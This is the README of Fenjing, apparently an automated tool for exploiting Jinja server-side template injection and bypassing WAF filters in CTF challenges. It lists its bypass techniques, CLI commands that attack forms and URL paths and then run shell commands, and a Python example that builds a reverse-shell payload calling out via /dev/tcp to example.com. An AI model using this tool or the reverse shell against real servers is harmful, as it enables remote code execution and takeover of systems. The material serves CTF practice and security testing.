

> Bypass the WAF without knowing WAF

焚靖是一个针对CTF比赛中Jinja SSTI绕过WAF的全自动脚本，可以自动攻击给定的网站或接口。

## 演示



## 主要特性

- 集成了大部分CTF中的SSTI WAF绕过技巧
- 全自动扫描HTML页面中的form元素并进行攻击
- 全自动分析网站的WAF并生成相应的payload
- 使用精确模式全面分析网站或使用快速模式减少不必要的网络请求
- 支持攻击对应的HTML表单或HTML路径
- 使用Shell指令对要发送的payload进行编码
- 方便的网页界面/命令行界面

## 快速上手

在以下方法中选择一种

### 使用pip安装运行

```shell
pip install fenjing
python -m fenjing webui
```

### 下载并运行docker镜像

```shell
docker pull marven11/fenjing
docker run --net host -it marven11/fenjing webui
```

### 手动安装

```shell
git clone https://github.com/Marven11/Fenjing
cd Fenjing
python -m pip install -r requirements.txt
python -m fenjing webui
```

### 手动构建Docker镜像

```shell
docker build -t fenjing .
docker run -it --net host fenjing webui
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`，`lipsum`和`urlencode`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`等
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


## 详细使用

### 作为命令行脚本使用

各个功能的介绍：

- webui: 网页UI
  - 顾名思义，网页UI
  - 默认端口11451
- scan: 扫描整个网站
  - 从网站中根据form元素提取出所有的表单并攻击
  - 扫描成功后会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing scan --url 'http://xxx/'`
- crack: 对某个特定的表单进行攻击
  - 需要指定表单的url, action(GET或POST)以及所有字段(比如'name')
  - 攻击成功后也会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing crack --url 'http://xxx/' --method GET --inputs name`
- crack-path: 对某个特定的路径进行攻击
  - 攻击某个路径（如`http://xxx.xxx/hello/<payload>`）存在的漏洞
  - 参数大致上和crack相同，但是只需要提供对应的路径
  - 示例：`python -m fenjing crack-path --url 'http://xxx/hello/'`
- get-config: 对某个特定的表单进行攻击，但是只获取flask config
  - 参数大致上和crack相同

一些特殊的选项：

- `--detect-mode`：检测模式，可为accurate或fast
  - 默认为accurate
  - 在开始尝试触发WAF, 获取WAF页面对应hash时：
    - accurate模式会一个接一个地发送尽可能多的payload
    - fast模式会将多个payload组合在一起发送，
  - 在生成payload时：
    - accurate模式会先从最简单的方法试起
    - fast模式会先尝试使用复杂但通常更能绕过WAF的方法
- `--tamper-cmd`：编码payload
  - 某些情况下，目标会先将用户输入进行base64解码后再渲染
  - tamper-cmd可以在payload发出前先调用shell指令对payload进行编码，从而处理上述情况
  - 例如：
    - `--tamper-cmd 'rev'`：将payload反转后再发出
    - `--tamper-cmd 'base64'`：将payload进行base64编码后发出
    - `--tamper-cmd 'base64 | rev'`：将payload进行base64编码并反转后再发出
  - 更多例子可以参考[examples.md](examples.md)


```
Usage: python -m fenjing scan [OPTIONS]

  扫描指定的网站

Options:
  -u, --url TEXT       需要扫描的URL
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --interval FLOAT     每次请求的间隔
  --detect-mode TEXT   检测模式，可为accurate或fast
  --user-agent TEXT    请求时使用的User Agent
  --header TEXT        请求时使用的Headers
  --cookies TEXT       请求时使用的Cookie
  --proxy TEXT         请求时使用的代理
  --tamper-cmd TEXT    在发送payload之前进行编码的命令，默认不进行额外操作
  --help               Show this message and exit.

Usage: python -m fenjing crack [OPTIONS]

  攻击指定的表单

Options:
  -u, --url TEXT       form所在的URL
  -a, --action TEXT    form的action，默认为当前路径
  -m, --method TEXT    form的提交方式，默认为POST
  -i, --inputs TEXT    form的参数，以逗号分隔
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT     每次请求的间隔
  --detect-mode TEXT   分析模式，可为accurate或fast
  --user-agent TEXT    请求时使用的User Agent
  --header TEXT        请求时使用的Headers
  --cookies TEXT       请求时使用的Cookie
  --proxy TEXT         请求时使用的代理
  --tamper-cmd TEXT    在发送payload之前进行编码的命令，默认不进行额外操作
  --help               Show this message and exit.

Usage: python -m fenjing get-config [OPTIONS]

  攻击指定的表单，并获得目标服务器的flask config

Options:
  -u, --url TEXT      form所在的URL
  -a, --action TEXT   form的action，默认为当前路径
  -m, --method TEXT   form的提交方式，默认为POST
  -i, --inputs TEXT   form的参数，以逗号分隔
  --interval FLOAT    每次请求的间隔
  --detect-mode TEXT  分析模式，可为accurate或fast
  --user-agent TEXT   请求时使用的User Agent
  --header TEXT       请求时使用的Headers
  --cookies TEXT      请求时使用的Cookie
  --proxy TEXT        请求时使用的代理
  --tamper-cmd TEXT   在发送payload之前进行编码的命令，默认不进行额外操作
  --help              Show this message and exit.

Usage: python -m fenjing crack-path [OPTIONS]

  攻击指定的路径

Options:
  -u, --url TEXT       需要攻击的URL
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT     每次请求的间隔
  --detect-mode TEXT   分析模式，可为accurate或fast
  --user-agent TEXT    请求时使用的User Agent
  --header TEXT        请求时使用的Headers
  --cookies TEXT       请求时使用的Cookie
  --proxy TEXT         请求时使用的代理
  --tamper-cmd TEXT    在发送payload之前进行编码的命令，默认不进行额外操作
  --help               Show this message and exit.

```

### 作为python库使用

参考[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")

```

其他使用例可以看[这里](examples.md)

## 项目结构

[](https://mermaid.live/edit#pako:eNptU8tuwyAQ_BWE1JziH8ihh6rXntpT68ja4CVGxYvLo0ka5d-L7SQGxxwQDLuzj1nOXJga-YZLbQ6iAevZx0tJLC4XdnsLXcOCV9qxEeyXMNpY9YcTYvEnoPNoJ0ga26Yu5Px0HU9I9TySQ1soikQSBKYhtfqS4DYSivjYKgLdY9vJ4oC70NvsehupLEpzHMFtRsOK4nnE70mwWRbCgvhG6xK_EUmigaxkIFHtkSY0MrTKZ21wAqgKVj9wDXksOKTPy1FSdIllaGtJs6I6OGkDdVLU0xOrY5-EV4buol_F8nj01S-kPXANal1daTJjqfaPuAyTdZ7_IpjTsFUebihzzjiA6X21kPl9xm7SZ1LewFylcR9mZMEl0eexxpL4mrdxQkHV8VOde5-S-wZbLPkmHgmDt6BLXtIlmkLw5v1Egm-8DbjmoavB46uCKFrL4yhrF9EO6NOY6Y618sa-jR93-L-Xf1aoMIE)
